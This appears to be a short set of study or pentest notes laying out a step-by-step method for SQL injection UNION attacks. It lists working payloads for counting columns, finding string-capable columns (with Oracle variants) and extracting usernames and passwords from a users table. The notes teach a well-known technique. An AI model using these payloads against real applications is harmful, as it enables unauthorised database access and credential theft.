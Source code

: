 # Methodology for SQL injection UNION attacks
#METHODOLOGY 
#UNION 

<hr>

## 1. Determine the number of columns of the result set 

Test using the following methods:

### ORDER BY testing
Look for errors, generally when the column index is exceeded.

```SQL
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--
' ORDER BY 4--
```

### UNION SELECT testing

Look for affirmative responses depending on the number of `NULL` present on the query.
```SQL
' UNION SELECT NULL-- 
' UNION SELECT NULL,NULL-- 
' UNION SELECT NULL,NULL,NULL--
```

### For Oracle database use the following payload
It's necessary to always select from a table, use the built-in `dual` table.

```SQL
' UNION SELECT NULL FROM dual--
' UNION SELECT NULL,NULL FROM dual--
' UNION SELECT NULL,NULL,NULL FROM dual--
```

<hr>

## 2. Determine which columns of the result set can hold string data

Use the following payload  checking the application's response to get information form errors about the data type or if it prompts no errors it indicates the column can hold string data.

(depending on the number of columns. In this example 4)
```SQL
' UNION SELECT 'a',NULL,NULL,NULL-- 
' UNION SELECT NULL,'a',NULL,NULL-- 
' UNION SELECT NULL,NULL,'a',NULL-- 
' UNION SELECT NULL,NULL,NULL,'a'--
```

### For Oracle database use the following payload

```SQL
' UNION SELECT 'a',NULL FROM dual--
' UNION SELECT NULL,'a' FROM dual--
```

<hr>

## 3. Extract data

Depending on the application's logic and the enumeration of the database once the vulnerability is found, retrieve sensitive data from the database tables, for example:

```SQL
' UNION SELECT NULL,username || '~' || password FROM users--
```

